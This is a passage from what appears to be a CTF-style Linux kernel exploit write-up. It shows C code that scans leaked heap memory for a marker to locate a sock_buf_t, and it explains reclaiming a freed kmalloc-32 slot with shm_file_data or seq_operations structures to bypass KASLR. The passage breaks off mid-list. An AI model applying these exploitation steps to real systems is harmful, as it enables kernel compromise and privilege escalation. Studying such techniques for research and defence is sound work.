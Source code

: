 ```c
int main(int argc, char* argv[argc+1]) {

	// ...

	uint64_t addr = leak();

	uint64_t fds3 = 0;

	for(int i=0; i < 256; i+= 8) {
		uint64_t data = read64(addr + i);
		if (data == 0x4141414141414100) {
			/* found fds[3] ! */
			fds3 = addr + i;
		}
	}

	if (!fds3) {
		printf("[!] Failed to find fds[3]\n");
		exit(0);
	}

	printf("[*] fds[3] sock_buf_t at %lx\n", fds3);
	uint64_t target = fds3 - 4*0x20;

```


Once we know this, we can free an arbitrary `sock_buf_t` and replace it with 
another kmalloc-32 object containing pointers to the kernel .text or .data 
sections in order to fully bypass KASLR.

After a small search, I found the following two options:

1. The `shmat` syscall allocates a structure of type `struct shm_file_data` using 
`kzalloc`:

	```c
	struct shm_file_data {
		int id;
		struct ipc_namespace *ns;
		struct file *file;
		const struct vm_operations_struct *vm_ops;
	};
	```

	Both the `ns` and the `vm_ops` fields point to kernel .data. Thus all we 
	need to do is to create a shared memory area with `shmget` at the beginning 
	of the exploit and map it with `shmat` after we've leaked the kmalloc-32 
	address.

2. When opening a file using the `seq_file` facility, `single_open` allocates a 
`struct seq_operations` with `kmalloc`. This structure contains a 4 function 
pointers as shown here: 
